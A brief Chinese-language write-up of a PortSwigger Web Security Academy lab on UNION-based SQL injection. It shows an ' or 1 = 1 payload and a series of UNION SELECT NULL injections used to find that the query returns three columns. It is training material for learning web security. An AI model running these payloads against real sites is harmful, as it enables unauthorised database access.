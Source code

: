 https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

## 觀察
在 GET 輸入 ' 時產生 internal Server error
輸入 `' or 1 = 1 -- abc` 時發現注入成功

## 攻擊
這個 LAB 要找出有回傳的 column 有幾個，所以就用 UNION SELECT

```
' UNION SELECT NULL -- a			Internal Server Error
' UNION SELECT NULL, NULL -- a			Internal Server Error
' UNION SELECT NULL, NULL, NULL -- a		成功顯示頁面，故可以知道 column 有三個
```
